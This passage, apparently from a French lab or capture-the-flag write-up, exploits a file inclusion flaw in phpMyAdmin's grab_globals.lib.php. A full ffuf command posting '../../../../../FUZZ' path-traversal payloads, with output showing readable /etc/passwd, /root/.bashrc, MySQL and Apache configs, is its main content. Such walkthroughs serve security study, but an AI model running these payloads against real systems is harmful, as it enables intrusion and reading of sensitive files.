 Il s'agit en réalité d'une faille d'inclusion car si on charge le fichier `register.php` vu au tout début de cet article on n'ontient pas de code PHP.

Mon idée initiale était donc de trouver un fichier à inclure dans lequel je pourrais aussi injecter du code PHP (fichier de log par exemple). A noter que le path a un préfixe par conséquent ça élimine certaines techniques d'exploitation.

J'ai utiliser `ffuf` pour essayer de trouver des fichiers intéressants :

```shellsession
$ ffuf -x http://192.168.1.34:3128/ -u http://www.zincftp.com/phpMyAdmin/libraries/grab_globals.lib.php  -X POST -d "usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../../FUZZ&subform[1][cXIb8O3]=1"  -H "Content-type: application/x-www-form-urlencoded" -w wordlists/files/Linux-files.txt -fr "failed to open stream:"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://www.zincftp.com/phpMyAdmin/libraries/grab_globals.lib.php
 :: Wordlist         : FUZZ: wordlists/files/Linux-files.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../../FUZZ&subform[1][cXIb8O3]=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://192.168.1.34:3128/
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: failed to open stream:
________________________________________________

/etc/group              [Status: 200, Size: 669, Words: 1, Lines: 56]
/etc/motd               [Status: 200, Size: 419, Words: 51, Lines: 12]
/etc/hosts              [Status: 200, Size: 244, Words: 21, Lines: 11]
/etc/passwd             [Status: 200, Size: 2604, Words: 14, Lines: 58]
/proc/version           [Status: 200, Size: 150, Words: 19, Lines: 2]
/etc/issue              [Status: 200, Size: 809, Words: 254, Lines: 32]
/proc/cmdline           [Status: 200, Size: 63, Words: 4, Lines: 2]
/proc/mounts            [Status: 200, Size: 707, Words: 76, Lines: 16]
/etc/init.d/apache2     [Status: 200, Size: 5736, Words: 1321, Lines: 198]
/etc/mysql/my.cnf       [Status: 200, Size: 3897, Words: 485, Lines: 148]
/etc/apache2/apache2.conf [Status: 200, Size: 10587, Words: 1539, Lines: 299]
/etc/apache2/ports.conf [Status: 200, Size: 59, Words: 8, Lines: 6]
/root/.bashrc           [Status: 200, Size: 2227, Words: 293, Lines: 73]
/etc/apache2/sites-available/default [Status: 200, Size: 11041, Words: 491, Lines: 576]
:: Progress: [62/62] :: Job [1/1] :: 120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
